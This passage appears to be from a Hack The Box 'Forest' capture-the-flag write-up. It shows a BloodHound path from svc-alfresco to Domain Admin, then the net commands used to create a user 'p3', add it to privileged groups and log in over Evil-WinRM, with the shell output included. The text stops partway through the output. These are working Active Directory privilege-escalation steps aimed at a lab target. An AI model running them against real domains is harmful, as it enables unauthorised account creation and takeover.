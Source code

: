   You'll find 'Find Shortest Paths to Domain Admins' to look something like this:
  svc-alfresco
    |-- (MemberOf) --> Group: Service Accounts
         |-- (MemberOf) --> Group: Privileged IT Accounts
                   |-- (MemberOf) --> Group: Account Operators
                         |-- (GenericAll) --> Group: Exchange Windows Permissions
                                                            |-- (WriteDacl) --> HTB.LOCAL
                                                                        |-- (Contains) --> User: Administrator

# svc-alfresco has the privs to create new users, or change passwords of users, in group Exchange Windows Permissions
# (indicated by the 'MemberOf'-chain and GenericAll towards the Group)
# Create a new user in the group Exchange Windows Permissions, to get closer to Administrator user.

3. Create new user in "Exchange Windows Permissions"-Group to pivot closer to Administrator
    *Evil-WinRM* PS C:\> net user p3 Password123! /add
    The command completed successfully.

    *Evil-WinRM* PS C:\> net group "exchange windows permissions" p3 /add /domain
    The command completed successfully.

    *Evil-WinRM* PS C:\> net localgroup "Remote Management Users" /add p3
    The command completed successfully.


    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.161 -u p3 -p Password123!

    Info: Starting Evil-WinRM shell v1.7
    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\p3\Documents> whoami
    htb\p3
    *Evil-WinRM* PS C:\Users\p3\Documents> net user p3 /domain
    User name                    p3
    Full Name
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            10/24/2019 5:14:48 AM
    Password expires             12/5/2019 5:14:48 AM
    Password changeable          10/25/2019 5:14:48 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   Never

    Logon hours allowed          All
